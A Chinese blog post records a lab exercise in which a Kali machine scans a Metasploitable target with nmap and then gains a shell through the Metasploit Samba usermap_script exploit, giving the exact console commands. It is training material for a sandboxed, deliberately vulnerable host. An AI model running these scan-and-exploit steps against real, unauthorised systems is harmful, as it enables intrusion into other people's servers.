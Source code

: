 ```yaml
---
title: kali 渗透攻击Samba服务
date: 2018-11-27 15:55:54
tags:
---
```


  公司网站开发需要测试一下教学网站中的实验部分（一人两台实验机器，其中一台为kali，另一台为metasploitable）,看一下是否能正常使用。对kali工具不熟悉，找了几篇博客，并将主要流程记录下来。
<!--more-->

使用postman发送请求，将两台虚拟机镜像的ID封装成json对象。后端接收到数据后，生成对应的虚拟机，打开openstack的dashboard可以看到生成两个虚拟机，信息如下(主要看主机名和IP)：
![](实例信息.png)
后台返回kali的url。将url复制到浏览器中后开始操作。

#### 准备工作
nmap是一款专用的端口扫描工具，主要使用该工具发现局域网中的主机，和主机开放的端口。
- 主机扫描
```
nmap -sP 172.0.0.0-100
```
该命令是扫描发现局域网下IP为172.0.0.0-172.0.0.100下可以ping通的IP,结果如下。
![](主机扫描.png)
由图片可知，已经发现了IP为172.0.0.13的虚拟机。

- 端口扫描
```
nmap -sV 172.0.0.13 -A
```
该命令是发现主机开发的端口，通过扫描可以发现该主机开放了一些存在高危漏洞的端口。
![](端口扫描.png)
上图所示是该主机开放的所有端口，其中知道比较多的139、445等高危端口是开放的。

- 渗透攻击Samba服务
Samba服务对应的端口有139和445等，只要开启这些端口后，主机就有可能存在Samba远程溢出漏洞。以下是攻击步骤：
1. 启动MSF终端
```
msfconsole
```
2. 使用smb_version模块
```
use exploit/multi/samba/usermap_script
```
3. 设置RHOST选项
```
set RHOST 172.0.0.13
```
4. 启动渗透攻击
```
exploit
```
5. 等待完成，如果成功。使用Linux命令查询主机相关信息。例如查询系统当前用户和ip地址
```
whoami
ip address
```
![](渗透攻击.png)
这只是其中的一种漏洞，因为metasploitable是一个人工靶机，所以教程较多，攻击流畅。下面这篇博客里面还包含了其他的一些漏洞和攻击方法，可以参考。
参考链接：[Kali-Li  nux渗透攻击应用](https://www.cnblogs.com/student-programmer/p/6728594.html)
